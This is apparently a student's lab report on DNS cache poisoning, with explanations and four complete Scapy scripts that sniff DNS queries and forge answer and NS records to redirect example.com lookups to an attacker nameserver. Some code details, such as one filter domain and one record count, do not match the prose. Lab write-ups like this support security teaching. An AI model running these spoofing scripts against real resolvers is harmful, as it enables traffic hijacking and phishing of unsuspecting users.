= DNS Cache Poisoning
Harsh Gaurang Kapadia <harshk@bu.edu>
:toc:					left
:favicon:				../../../../../favicon.ico
:imagesdir:				./
:docinfo:				shared
:sectanchors:
:figure-caption!:

NOTE: link:../dns-heartbleed.html[Assignment questions/instructions]

== Setup Test

We get the IP of `ns.attacker32.com` on querying for it, because the local DNS server has its IP address pre-defined in its configuration.

.Get the IP address of `ns.attacker32.com`


The local DNS server goes to the public internet and gets the IP address of `www.example.com`

.Get the IP address of `www.example.com` using the local DNS server


The client first asks the local DNS server for the A record of `ns.attacker32.com` and then makes the requested DNS query directly to `ns.attacker32.com` at the IP the local DNS server sent.

.Get the IP address of `www.example.com` using the `ns.attacker32.com` DNS server


== Task 1: Directly Spoofing Response to User

During the attack, the attacker is able to target requests between the client and the DNS server only and has to individually intercept every client's requests. The local DNS server's cache is not poisoned. In fact, the local DNS server has the correct answer, but the attacker responded first, so the DNS server's response was ignored by the client.

.Attacker


.User receives poisoned response during attack


.User receives correct response after attack and local DNS server cache expiry/flush


Code:

[source, python]
----
#!/usr/bin/env python3
from scapy.all import *

def spoof_dns(pkt):
	if (DNS in pkt and "www.example.net" in pkt[DNS].qd.qname.decode("utf-8")):
		# Swap the source and destination IP address
		IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
		
		# Swap the source and destination port number
		UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)
		
		# The Answer Section
		Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type="A",ttl=259200, rdata="10.0.2.5")
		
		# The Authority Section
		NSsec1 = DNSRR(rrname="example.net", type="NS",ttl=259200, rdata="ns1.example.net")
		NSsec2 = DNSRR(rrname="example.net", type="NS",ttl=259200, rdata="ns2.example.net")
		
		# The Additional Section
		Addsec1 = DNSRR(rrname="ns1.example.net", type="A", ttl=259200, rdata="1.2.3.4")
		Addsec2 = DNSRR(rrname="ns2.example.net", type="A",ttl=259200, rdata="5.6.7.8")

		# Construct the DNS packet
		DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=2, arcount=2,an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)

		# Construct the entire IP packet and send it out
		spoofpkt = IPpkt/UDPpkt/DNSpkt
		send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().
f = "udp and dst port 53"
pkt = sniff(iface="br-5e48dfe2a4b3", filter=f, prn=spoof_dns)
----

== Task 2: Directly Spoofing Response to User - Spoofing Answers

Instead of targeting the client and the local DNS server communication, the local DNS server's cache is poisoned, which leads to all clients automatically receiving the wrong response till the poisoned cache survives on the local DNS server.

.Attacker


.User receives poisoned response during attack


.Local DNS server's poisoned cache during the attack


.User receives correct response after attack and local DNS server cache expiry/flush


.Local DNS server's cache after attack and poisoned cache expiry/flush


Code:

The filter is modified to target the local DNS server's requests to the router (public internet).

[source, python]
----
#!/usr/bin/env python3
from scapy.all import *

def spoof_dns(pkt):
	if (DNS in pkt and "www.example.net" in pkt[DNS].qd.qname.decode("utf-8")):
		# Swap the source and destination IP address
		IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
		
		# Swap the source and destination port number
		UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)
		
		# The Answer Section
		Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type="A",ttl=259200, rdata="10.0.2.5")
		
		# The Authority Section
		NSsec1 = DNSRR(rrname="example.net", type="NS",ttl=259200, rdata="ns1.example.net")
		NSsec2 = DNSRR(rrname="example.net", type="NS",ttl=259200, rdata="ns2.example.net")

		# The Additional Section
		Addsec1 = DNSRR(rrname="ns1.example.net", type="A", ttl=259200, rdata="1.2.3.4")
		Addsec2 = DNSRR(rrname="ns2.example.net", type="A",ttl=259200, rdata="5.6.7.8")

		# Construct the DNS packet
		DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=2, arcount=2,an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)

		# Construct the entire IP packet and send it out
		spoofpkt = IPpkt/UDPpkt/DNSpkt
		send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().
f = "udp and src host 10.9.0.53 and src port 33333"
pkt = sniff(iface="br-5e48dfe2a4b3", filter=f, prn=spoof_dns)
----

== Task 3: Spoofing NS Records

When the user makes the first request to the server, instead of just sending spoofed DNS Answer Sections, the attacker sends a spoofed Authority Section as well, so then it controls the entire `example.com` domain, rather than just `www.example.com` as in link:#_task_1_directly_spoofing_response_to_user[Task 1] and link:#_task_2_directly_spoofing_response_to_user_spoofing_answers[Task 2]. When a request to `mail.example.com` is sent to the local DNS server after an initial `www.example.com` request which poisons the cache, the attacker's Nameserver is asked for the unknown answer to `mail.example.com` instead of the `ns1.example.com`, the actual Nameserver of `example.com`.

.Attacker


.Attacker Nameserver


.Initial user request that poisons entire `example.com` domain


.Local DNS server's poisoned cache (Note the spoofed NS record)


.Subsequent user request that makes use of the poisoned `example.com` NS record


Code:

The NS records for `example.com` have been modified to the attacker controlled Nameserver.

[source, python]
----
#!/usr/bin/env python3
from scapy.all import *

def spoof_dns(pkt):
	if (DNS in pkt and "www.example.com" in pkt[DNS].qd.qname.decode("utf-8")):
		# Swap the source and destination IP address
		IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
		
		# Swap the source and destination port number
		UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)
		
		# The Answer Section
		Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type="A",ttl=259200, rdata="10.0.2.5")
		
		# The Authority Section
		NSsec1 = DNSRR(rrname="example.com", type="NS",ttl=259200, rdata="ns.attacker32.com.")
		NSsec2 = DNSRR(rrname="example.com", type="NS",ttl=259200, rdata="ns.attacker32.com.")

		# Construct the DNS packet
		DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=2, arcount=0, an=Anssec, ns=NSsec1/NSsec2)

		# Construct the entire IP packet and send it out
		spoofpkt = IPpkt/UDPpkt/DNSpkt
		send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().
f = "udp and src host 10.9.0.53 and src port 33333"
pkt = sniff(iface="br-5e48dfe2a4b3", filter=f, prn=spoof_dns)
----

== Task 4: Spoofing NS Records for Another Domain

Even though the attacker sends `google.com` in the attack, the local DNS server does not cache it, as it is only concerned with the `example.com` domain.

.Attacker


.Initial user request to `www.example.com` that poisons the local DNS server's cache


.Subsequent user request to `www.google.com` that gives the correct answer


.Local DNS server's poisoned cache, that includes the `example.com` domain, but not the `google.com` domain


Code:

The NS record for `google.com` has been added.

[source, python]
----
#!/usr/bin/env python3
from scapy.all import *

def spoof_dns(pkt):
	if (DNS in pkt and "www.example.com" in pkt[DNS].qd.qname.decode("utf-8")):
		# Swap the source and destination IP address
		IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
		
		# Swap the source and destination port number
		UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)
		
		# The Answer Section
		Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type="A",ttl=259200, rdata="10.0.2.5")
		
		# The Authority Section
		NSsec1 = DNSRR(rrname="example.com", type="NS",ttl=259200, rdata="ns.attacker32.com.")
		NSsec2 = DNSRR(rrname="example.com", type="NS",ttl=259200, rdata="ns.attacker32.com.")
		NSsec3 = DNSRR(rrname="google.com", type="NS",ttl=259200, rdata="ns.attacker32.com.")

		# Construct the DNS packet
		DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=2, arcount=0, an=Anssec, ns=NSsec1/NSsec2/NSsec3)

		# Construct the entire IP packet and send it out
		spoofpkt = IPpkt/UDPpkt/DNSpkt
		send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().
f = "udp and src host 10.9.0.53 and src port 33333"
pkt = sniff(iface="br-5e48dfe2a4b3", filter=f, prn=spoof_dns)
----
